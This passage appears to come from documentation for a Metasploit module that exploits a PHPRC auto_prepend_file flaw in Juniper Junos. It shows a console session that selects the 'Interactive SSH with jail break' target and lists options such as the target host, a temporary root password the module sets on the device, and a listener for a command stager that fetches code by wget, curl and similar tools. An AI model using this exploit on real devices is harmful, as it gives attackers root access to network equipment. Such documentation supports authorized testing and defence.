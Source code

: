 ### Interactive SSH with jail break junos-vsrx3-x86-64-20.2R1.10.scsi.ova 
```
msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   PHP In-Memory
    1   Interactive SSH with jail break


msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > set target 1
target => 1
msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > options

Module options (exploit/freebsd/http/junos_phprc_auto_prepend_file):

   Name               Current Setting           Required  Description
   ----               ---------------           --------  -----------
   Proxies                                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.140.91            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              80                        yes       The target port (TCP)
   SSH_PORT           22                        yes       SSH port of Junos Target
   SSH_TIMEOUT        30                        yes       The maximum acceptable amount of time to negotiate a SSH session
   SSL                false                     no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                      no        Path to a custom SSL certificate (default is randomly generated)
   TMP_ROOT_PASSWORD  gCg6b3NTs10qWjiRVSsjAv7n  yes       If target is set to "Interactive SSH with jail break", the root user's password will be temporarily changed to this password
   URIPATH                                      no        The URI to use for this exploit (default is random)
   VHOST                                        no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   1   Interactive SSH with jail break

```